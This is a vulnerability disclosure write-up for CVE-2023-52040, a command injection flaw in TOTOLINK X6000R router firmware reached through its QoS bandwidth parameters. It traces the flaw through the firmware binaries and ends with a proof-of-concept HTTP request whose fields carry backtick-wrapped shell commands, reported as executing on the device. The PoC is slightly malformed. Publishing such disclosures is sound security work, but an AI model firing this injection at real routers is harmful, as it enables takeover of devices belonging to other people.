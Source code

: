# TOTOLINK X6000R Command Execution Vulnerability

## Product infomation

Vendor of the product: https://www.totolink.net/

Product version: X6000R_Firmware V9.4.0cu.852_B20230719

Firmware download address: https://www.totolink.net/home/menu/detail/menu_listtpl/download/id/247/ids/36.html

## vulnablitity overview

In TOTOLINK X6000R V9.4.0cu.852_B20230719, the executable program shttpd’s sub_41284C function obtains a string through the Uci_Set_Str function without checking it, and passes it to the CsteSystem function, causing a command execution vulnerability.

## Analyse

In the binary file shttp, the function sub_41284C gets the qos_up_bw and qos_down_bw parameters, and then passes them to the Uci_Set_Str.

<img src="https://raw.githubusercontent.com/Beckaf/vunl/main/TOTOLINK/X6000R/3/img/img1.png" alt="img1" style="zoom:67%;" />

In the binary file libcscommon.so, the function Uci_Set_Str calls the CsteSystem.

<img src="https://raw.githubusercontent.com/Beckaf/vunl/main/TOTOLINK/X6000R/3/img/img2.png" alt="img2" style="zoom:67%;" />

In CsteSytem, the command will be executed directly.

<img src="https://raw.githubusercontent.com/Beckaf/vunl/main/TOTOLINK/X6000R/3/img/img3.png" alt="img3" style="zoom:67%;" />

## Exploit

Access the web page that contains vulnerability and use Fiddler to capture packets. The 'qos_up_bw' and 'qos_down_bw' parameters are passed from the frontend.

<img src="https://raw.githubusercontent.com/Beckaf/vunl/main/TOTOLINK/X6000R/3/img/img4.png" alt="img4" style="zoom:67%;" />

<img src="https://raw.githubusercontent.com/Beckaf/vunl/main/TOTOLINK/X6000R/3/img/img5.png" alt="img5" style="zoom:67%;" />

Replay after modifying the parameters of the traffic packet.

<img src="https://raw.githubusercontent.com/Beckaf/vunl/main/TOTOLINK/X6000R/3/img/img6.png" alt="img6" style="zoom:67%;" />

poc

```html
POST http://192.168.10.2/cgi-bin/cstecgi.cgi HTTP/1.1
Host:192.168.10.2
User-Agent:Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:120.0) Gecko/20100101 Firefox/120.0
Accept:application/json, text/javascript, */*; q=0.01
Accept-Language:en-US,en;q=0.5
Accept-Encoding:gzip, deflate
Content-Type:application/x-www-form-urlencoded; charset=UTF-8
X-Requested-With:XMLHttpRequest
Origin:http://192.168.10.2
Connection:keep-alive
Referer:http://192.168.10.2/advance/qos.html

{"qos_enable":"1","qos up bw":"`ls > /up.txt`","qos down bw":"`ls > /down.txt", "addEffect":"3","topicurl":"setSmartQosCfg"}
```

before execute

![img7](https://raw.githubusercontent.com/Beckaf/vunl/main/TOTOLINK/X6000R/3/img/img7.png)

after execute

<img src="https://raw.githubusercontent.com/Beckaf/vunl/main/TOTOLINK/X6000R/3/img/img8.png" alt="img8" style="zoom:67%;" />

The command was successfully executed.



## CVE-2023-52040